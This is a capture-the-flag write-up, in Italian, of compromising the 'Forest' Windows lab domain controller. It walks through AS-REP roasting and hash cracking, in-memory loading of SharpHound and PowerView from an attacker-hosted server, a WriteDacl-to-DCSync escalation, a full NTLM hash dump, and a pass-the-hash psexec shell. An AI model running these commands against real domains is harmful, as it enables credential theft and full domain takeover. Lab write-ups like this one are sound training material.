

# Forest
* **POINTS**: 0
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Windows
* **RATING**: 4.6

## 1. Recon
```shell
└─$ nmap -sC -sV -oA nmap/initial 10.10.10.161
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 04:00 EDT
Nmap scan report for 10.10.10.161
Host is up (0.13s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-07-14 08:08:10Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)                                                                                                                
3269/tcp open  tcpwrapped                                                                                          
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows                                             
                                                                                                                   
Host script results:                                                                                               
| smb2-security-mode:                                                                                              
|   3.1.1:                                                                                                         
|_    Message signing enabled and required                                                                         
| smb-security-mode:                                                                                               
|   account_used: guest                                                                                            
|   authentication_level: user                                                                                     
|   challenge_response: supported                                                                                  
|_  message_signing: required                                                                                      
| smb2-time:                                                                                                       
|   date: 2022-07-14T08:08:21
|_  start_date: 2022-07-14T08:06:15
|_clock-skew: mean: 2h26m52s, deviation: 4h02m32s, median: 6m50s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-07-14T01:08:22-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.86 seconds
```

## 1.1 DIG - UDP/TCP 53
```shell
└─$ dig ns htb.local @10.10.10.161

; <<>> DiG 9.18.0-2-Debian <<>> ns htb.local @10.10.10.161
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 53957
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: a0c2763fb473fcef (echoed)
;; QUESTION SECTION:
;htb.local.                     IN      NS

;; ANSWER SECTION:
htb.local.              3600    IN      NS      forest.htb.local.

;; ADDITIONAL SECTION:
forest.htb.local.       3600    IN      A       10.10.10.161

;; Query time: 144 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Thu Jul 14 04:31:53 EDT 2022
;; MSG SIZE  rcvd: 87
```

```shell
└─$ dig ns forest.htb.local @10.10.10.161

; <<>> DiG 9.18.0-2-Debian <<>> ns forest.htb.local @10.10.10.161
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54280
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: 933b4217ac1dc922 (echoed)
;; QUESTION SECTION:
;forest.htb.local.              IN      NS

;; AUTHORITY SECTION:
htb.local.              3600    IN      SOA     forest.htb.local. hostmaster.htb.local. 104 900 600 86400 3600

;; Query time: 148 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Thu Jul 14 04:32:49 EDT 2022
;; MSG SIZE  rcvd: 104
```
```shell
└─$ dig axfr htb.local @10.10.10.161                                                                                                                                                                                                    

; <<>> DiG 9.18.0-2-Debian <<>> axfr htb.local @10.10.10.161
;; global options: +cmd
; Transfer failed.
```


## 1.2 SMB - TCP 445
Non abbiamo info

```shell
┌──(asd㉿asd)-[~/Scrivania/Forest]
└─$ smbmap -H 10.10.10.161
[+] IP: 10.10.10.161:445        Name: 10.10.10.161   
┌──(asd㉿asd)-[~/Scrivania/Forest]
└─$ smbmap -H 10.10.10.161 -u asd -p asd
[!] Authentication error on 10.10.10.161
┌──(asd㉿asd)-[~/Scrivania/Forest]
└─$ smbclient -N -L \\10.10.10.161                                                                                 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

## 2. AS-ROASTING
Lanciando impacket (modulo per AS-ROASTING) ricaviamo la password di un utente

```shell
└─$ impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -request -format hashcat
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2022-07-14 04:46:28.700913  2019-09-23 07:09:47.931194  0x410200 


$krb5asrep$23$svc-alfresco@HTB.LOCAL:bc85122ca93be03f315decc5c4d06e6b$0c59420de7005a1ce3df2924a2f99471ee0a516b00bd6bd5556e8a97097b94421e5de113715cb42abe5c674b13d073d80975c7f5ee051896dba1047d25713acd81f903b082cc2ea69b77cbc5518d03fdeb52f68b3b17134a2df0ef72bfd2bc652aef6e5b464443191b7a4d58b64aed1d7eb34ef86fbd15ff9b3709f2a925d9bf2b9ba2294974e2e223917122a04a656355edf5985ad1f72cb55dd61466b24902010a444a4fd1ba99a70f687de936f8a9dbae03504ae6c33df74dc7149e1d4e3a48a43d61343807bff68ce03c793888e2b32369428d6243856a287d2a837b924e5e47dccf92aa
```

Cracchiamo la password con *john*:

```shell
└─$ john hash -w=../rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:06 DONE (2022-07-14 04:46) 0.1626g/s 664351p/s 664351c/s 664351C/s s401413..s3r1bu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Abbiamo user e password quindi vediamo se c'è *winrm*:

```shell
└─$ crackmapexec winrm -u svc-alfresco -p 's3rvice' -d htb.local 10.10.10.161
HTTP        10.10.10.161    5985   10.10.10.161     [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   10.10.10.161     [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Ok, ci colleghiamo tramite *evil-winrm*:

```shell
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

In *C:\Users\svc-alfresco\Desktop* abbiamo la user flag: `66fcc011613ac8538ae199a440c67c61`

## 3. svc-alfresco to System
Carichiamo [SharpHound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1) per collezionare i dati per [BloodHound](https://github.com/BloodHoundAD/BloodHound): `iex(new-object net.webclient).downloadstring("http://10.10.14.16:8000/SharpHound.ps1")`

Quindi andiamo a eseguire: `invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice`

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir


    Directory: C:\Users\svc-alfresco\appdata\local\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/14/2022   2:58 AM          18147 20220714025759_BloodHound.zip
-a----        7/14/2022   2:58 AM          19610 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
```

Dobbiamo passare i file sulla nostra macchina:

**LATO MIO**

`smbserver.py share . -smb2support -username asd -password asd`

**LATO HOST**

`net use \\10.10.14.16\share /u:asd asd`

Ci copiamo il file 

`copy 20220714025759_BloodHound.zip \\10.10.14.16\share\`

Chiudiamo la connessione

`net use /d \\10.10.14.16\share`

Avviamo BloodHound, carichiamo i file "*.json". Quindi marchiamo l'utente *svc-alfresco* come "*Owned Principal*" ed eseguiamo l'analisi denominata "*Shortest Path on the Owned Principal*"

<p align="center">
  
</p>

Il gruppo "*Account Operators*" concede privilegi di creazione account limitati a un utente. I membri di questo gruppo possono creare e modificare la maggior parte dei tipi di account, inclusi quelli di utenti, gruppi locali e gruppi globali, ei membri possono accedere localmente ai controller di dominio.

I membri del gruppo "*Account Operators*" non possono gestire l'account utente amministratore, gli account utente degli amministratori o i gruppi "*Administrators*", "*Server Operators*", "*Account Operators*", "*Backup Operators*" o "*Print Operators*". I membri di questo gruppo non possono modificare i diritti utente.

### 3.1 Privilege
#

Possiamo abusare di *WriteDacl* sull'oggetto dominio per concederci i diritti DCSync su HTB.LOCAL.

Per abusarne creeremo prima un nuovo utente, in modo da mantenere l'account corrente al sicuro, se mai ne avremo bisogno. Per creare un utente: 

`net user miku miku@123 /add /domain`

Ora lo aggiungiamo al gruppo "*Exchange Windows Permissions*":

`net group "Exchange Windows Permissions" /add miku`

Ora, con l'aiuto di [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) abuseremo di *WriteDacl*; lo carichiamo sulla macchina:

`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PowerView.ps1')`

Creeremo nuovamente un oggetto credenziale per la nostra password e per le nostre credenziali. Questa volta per l'utente che abbiamo creato

`$pass = convertto-securestring 'miku@123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('HTB\miku', $pass)`

Ora eseguiamo il comando seguente per concederci i diritti *DCSync* sul nostro account:

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity miku -Rights DCSync`

Dopo che abbiamo i diritti, scaricheremo i "segreti" dalla macchina e li utilizzeremo per accedere come amministratore.

Per scaricarli utilizzeremo un altro strumento di impacket "secretsdump.py". Se viene eseguito correttamente, significa che i nostri diritti sono stati assegnati correttamente e i segreti verranno scaricati:

```shell
─$ secretsdump.py htb.local/miku:miku@123@10.10.10.161                                                            
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
miku:9601:aad3b435b51404eeaad3b435b51404ee:d85f934291c191b5d8aad5161afe1472:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:0459972bb2461674228ebeaf927d59d8:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
``` 

Ora usiamo *crackmapexec* per verificare se la password sia corretta:

```shell
└─$ crackmapexec smb 10.10.10.161 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

È **Pwn3d** quindi possiamo accedere utilizzando *psexec*:

```shell
─$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
[*] Uploading file vkhcxRSt.exe
[*] Opening SVCManager on 10.10.10.161.....
[*] Creating service OuEU on 10.10.10.161.....
[*] Starting service OuEU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

In *C:\Users\Administrator\Desktop* abbiamo la root flag: `86f0fb55e74b5703238b69868f5cad82`